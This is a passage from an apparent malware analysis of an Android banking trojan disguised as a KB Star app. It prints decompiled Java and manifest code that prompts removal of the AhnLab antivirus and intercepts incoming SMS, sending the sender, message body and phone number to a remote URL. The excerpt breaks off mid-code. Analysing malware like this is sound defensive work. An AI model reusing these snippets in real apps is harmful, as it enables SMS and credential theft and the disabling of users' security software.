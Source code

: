 The app tries to poll the foreground activity and probably compares the package name against each item in the array (line <66>). An `Intent` is then built with
a new `ComponentName`, probably with the current string.

### UninstallerService

Finally, this last service is once again a scheduled task, where the app will try to uninstall AhnLab V3 Mobile Plus 2.0. A call to `getSoftName` is done in the routine `run` of the thread (approximation):

> ```java
>private void getSoftName(){
>	PackageManager localPackageManager = getPackageManager();
>	List<ApplicationInfo> applicationInfos = localPackageManager.getInstalledApplications(8192);
>	for (int i = 0;i < applicationInfos.size();i++){
>		ApplicationInfo applicationInfo = applicationInfos.get(i);
>		if (((String)applicationInfo.loadLabel(localPackageManager)).equalsIgnoreCase(AppContacts.aname)){
>			Intent intent = new Intent("android.intent.action.DELETE", Uri.parse("package:" + ((ApplicationInfo)applicationInfo).packageName));
>			intent.addFlags(268435456);
>			startActivity(intent);
>		}
>	}
>}
> ```

where the constant `AppContacts.aname` is **AhnLab V3 Mobile Plus 2.0**

## openActivityReceiver

A receiver named `openActivityReceiver` is registered in the manifest, and has a significant role for this malware:

> ```xml
><receiver android:enabled="true" android:exported="true" android:name="com.kbstar.kb.android.receiver.openActivityReceiver">
>	<intent-filter android:priority="2147483647">
>	<action android:name="android.intent.action.BOOT_COMPLETED"/>
>	<action android:name="android.provider.Telephony.SMS_RECEIVED"/>
>	<category android:name="android.intent.category.LAUNCHER"/>
></intent-filter>
></receiver>
> ```

The receiver listen for incoming SMS, and exfiltrate them. The code shown by JD-GUI is quite messy, but the exfiltration is obvious (approximation):

> ```java
>if (paramIntent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")){
>	Object[] pdus = (Object[])paramIntent.getExtras().get("pdus");
>	if (i < pdus.length) {
>		SmsMessage smsMessage = SmsMessage.createFromPdu((byte[])pdus[i]);
>		this.sender = smsMessage.getOriginatingAddress();
>		this.content = smsMessage.getMessageBody();
>	}
>	this.tel = ((TelephonyManager)paramContext.getSystemService("phone")).getLine1Number();
>	new Thread(){
>		public void run(){
>			Tool.postHttpConnection(openActivityReceiver.this.u, openActivityReceiver.this.sender, openActivityReceiver.this.tel, openActivityReceiver.this.content);
>			}
>	}.start();
>	String[] parts = this.content.split("-");
>	...
>	if (this.url.getUrl("ak40").equalsIgnoreCase("1")){